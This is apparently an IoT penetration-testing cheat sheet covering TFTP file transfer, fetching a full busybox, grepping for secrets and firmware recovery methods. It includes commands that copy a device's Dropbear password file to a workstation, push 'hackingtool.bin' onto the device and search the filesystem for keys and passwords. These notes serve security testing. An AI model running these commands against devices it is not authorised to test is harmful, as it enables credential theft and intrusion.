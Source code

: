 **Data exchange via TFTP:**

 1. Start a TFPT server on your machine:  
    `sudo atftpd --daemon --port 6969 --bind-address 0.0.0.0`  
    Default directory used by `atftpd` is: `/srv/tftp/`
 2. Copy a file from the IoT device to the pentest workstation:  
    `busybox tftp -l /var/tmp/dropbear/dropbearpw -p 192.168.0.101:6969`  
    Save the file in the root TFPT folder
 3. Copy a file from the pentest workstation to the IoT device:  
    `busybox tftp -r hackingtool.bin -g 192.168.0.101:6969`  
    Seve the file in the actual folder

**Getting a full version of busybox**

Busybox allow developers to remove commands from the tool to make it even smaller. The fullversion can be downloaded from:

`https://www.busybox.net/downloads/binaries/`

After downloading a pre-compiled binary for the correct architecture, the file need to be transfered to the device - e.g. with TFTP.

Use the `mount` command to find a RW filesystem like `ramfs`, etc.

**Finding interesting files**

```bash
busybox grep -ir "api" / 2>/dev/null
busybox grep -ir "key" / 2>/dev/null
busybox grep -ir "pass" / 2>/dev/null
busybox grep -ir "admin" / 2>/dev/null
busybox grep -ir "http" / 2>/dev/null

busybox find -iname "*.xml" / 2>/dev/null
busybox find -iname "*.json" / 2>/dev/null
busybox find -iname "*.yml" / 2>/dev/null
busybox find -iname "*.yaml" / 2>/dev/null
busybox find -iname "*.txt" / 2>/dev/null
```


## Firmware recovery

**Methods to access the firmware**

 1. Download from vendor Homepage
 2. Transfer of files via UART and TFTP
 3. Extration from RAM via bootloader:  
    e.g.: unsing the `md` command from U-Boot
 4. Read from ROM in circuit or with the chip-off method

#### Chip off method

**Installation of neede tools on Parrot Sec. OS**

`sudo apt install sasquatch`
